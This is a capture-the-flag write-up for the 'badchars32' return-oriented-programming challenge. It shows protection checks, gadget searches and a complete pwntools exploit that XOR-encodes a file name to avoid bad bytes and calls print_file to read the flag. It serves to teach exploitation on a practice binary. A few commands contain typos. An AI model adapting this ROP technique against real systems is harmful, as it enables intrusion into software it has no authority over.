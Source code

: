 # Basic Test:

## Check call system into binary file
```bash
strace ./badchars32
```

## Check protection into binary file
```bash
checksec ./badchars32
```

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'

<br>

# Exploitation:

## Clear the kernel ring buffer
```bash
sudo dmesg -C
```

## Find offset for overwrite RIP
```bash
python2 -c 'print "A"*44 + "B"*4*' | ./badchars32
```

## See output
```bash
sudo dmesg -T
```

	[mar. avril 11 22:58:43 2023] badchars32[124001]: segfault at 42424242 ip 0000000042424242 sp 00000000ff8bfcf0 error 14 in libc.so.6[f7c00000+22000] likely on CPU 0 (core 0, socket 0)

## Find the a gadget for two parameters for moving into a section writable

```bash
ROPgadget --binary ./badchars32 --badbytes '78|67|61|2e' | grep 'pop esi'
```
 
	0x080485b9 : pop esi ; pop edi ; pop ebp ; ret

## Find a section writable
```bash
readelf -S ./badchars32 | grep -B 1 'WA'
```

	  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4

## Find a gadget for moving the file name into .data
```bash
ROPgadget --binary ./badchars32 --badbytes '78|67|61|2e' | grep 'mov dword'
```

	0x0804854f : mov dword ptr [edi], esi ; ret

## We need to xor the file name for bypass  them badchars
```python
xored_string = xor("flag.txt", 2)
```

## Find a gadget for one parameter to decode xored file name
```bash
ROPgadget --binary ./badchars32 --badbytes '78|67|61|2e' | grep 'pop ebp'
```

	0x080485bb : pop ebp ; ret

## Find a gadget other one parameter to decode xored file name
```bash
ROPgadget --binary ./badchars32 --badbytes '78|67|61|2e' | grep 'pop ebx'
```

	0x0804839d : pop ebx ; ret

## Find a xor gadget for decode xored file name
```bash
ROPgadget --binary ./badchars32 --badbytes '78|67|61|2e' | grep 'xor byte'
```

	0x08048547 : xor byte ptr [ebp], bl ; ret

## Find the address of the print_file function
```bash
pwngdb> disass*usefulFunction
```

	   0x0804852a <+0>:     push   ebp
	   0x0804852b <+1>:     mov    ebp,esp
	   0x0804852d <+3>:     sub    esp,0x8
	   0x08048530 <+6>:     sub    esp,0xc
	   0x08048533 <+9>:     push   0x80485e0
	   0x08048538 <+14>:    call   0x80483d0 <print_file@plt>
	   0x0804853d <+19>:    add    esp,0x10
	   0x08048540 <+22>:    nop
	   0x08048541 <+23>:    leave
	   0x08048542 <+24>:    ret

## Python pwntools script
```python
#!/usr/bin/python3
from pwn import *
"""
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)
RUNPATH: b'.'
"""
# For example, to dump all data sent/received, and disable ASLR
# ./exploit.py DEBUG NOASLR

def start(argv=[], *a, **kw):
	if args.GDB: # Set GDBscript below
		return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
	elif args.REMOTE: # {"server", "port"}
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else: # Run locally
		return process([binary] + argv, *a, **kw)

def find_eip(payload):
	# Launch process
	p = process(binary)
	p.sendlineafter(">", payload) # If we have a text in get() or read() we need to copy and past in str argument, but if we don't have text in input we can just let ">"
	# Wait for the process to crash
	p.wait()
	#eip_offset = cyclic_find(p.corefile.esp) # x86
	eip_offset = cyclic_find(p.corefile.read(p.corefile.rsp, 4)) # x64
	info("Located $RIP offset at {a}".format(a=eip_offset))
	# Return the offset EIP
	return eip_offset

# Specify GDB script for debugging
gdbscript = '''
continue
'''.format(**locals())

# Setup pwntools for the correct architecture
binary = "./badchars32"
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(binary, checksec=False)
# Enable verbose logging we can see exactly what is being sent (info/debug)
context.log_level = "info"

# ================================================================
# EXPLOIT GOES HERE
# ================================================================

# Start program
io = start()

# badchars are: 'x', 'g', 'a', '.'

# Function payload
padding = b"A"*44
pop_esi_edi_ebp = 0x080485b9
value_to_xor = 2
xored_string = xor("flag.txt", value_to_xor)
data_section = 0x0804a018
mov_dword_edi_esi = 0x0804854f
data_section_4 = 0x0804a018+4
pop_ebp = 0x080485bb
pop_ebx = 0x0804839d
xor_byte_ebp_bl = 0x08048547
call_print_file = 0x080483d0
null = 0x0

# Info variable payload
info("Padding offset for overwrite EIP: %#s", padding)
info("Address for pop esi ; pop edi ; pop ebp ; ret: %#x", pop_esi_edi_ebp)
info("File name to read xored by %#d for bypass badchars: %#s", value_to_xor, xored_string)
info("Address for .data section who should write permission: %#x", data_section)
info("Address for mov dword ptr [edi], esi ; ret: %#x", mov_dword_edi_esi)
info("Address for section .data+4 for write after the four first bytes: %#x", data_section_4)
info("Address for pop ebp ; ret: %#x", pop_ebp)
info("Address for pop ebx ; ret: %#x", pop_ebx)
info("Address for xor byte ptr [ebp], bl ; ret: %#x", xor_byte_ebp_bl) # bl[8 bytes] === ebx[32 bytes]
info("Address for call print file function and read the file: %#x", call_print_file)
info("Null bytes for write into the third registers which is not useful: %#x", null)

# Decode the file name to read
xor_exploit = b""
for c in range(len(xored_string)):
	xor_exploit += pack(pop_ebp)
	xor_exploit += pack(data_section+c)
	xor_exploit += pack(pop_ebx)
	xor_exploit += pack(value_to_xor)
	xor_exploit += pack(xor_byte_ebp_bl)

  

# Build the payload

payload = flat(
	padding,
	pop_esi_edi_ebp,
	xored_string[:4],
	data_section,
	null,
	mov_dword_edi_esi,
	
	pop_esi_edi_ebp,
	xored_string[4:],
	data_section_4,
	null,
	mov_dword_edi_esi,
	
	xor_exploit,
	
	call_print_file,
	null, # OR pop ebp register
	data_section
)

# Send the payload
io.sendlineafter(">", payload) # If we have a text in get() or read() we need to copy and past in str argument, but if we don't have text in input we can just let ">"
io.recvuntil("Thank you!\n")

# Get flag
flag = io.recv()
success(flag)

# Spawn shell
#io.interactive()
```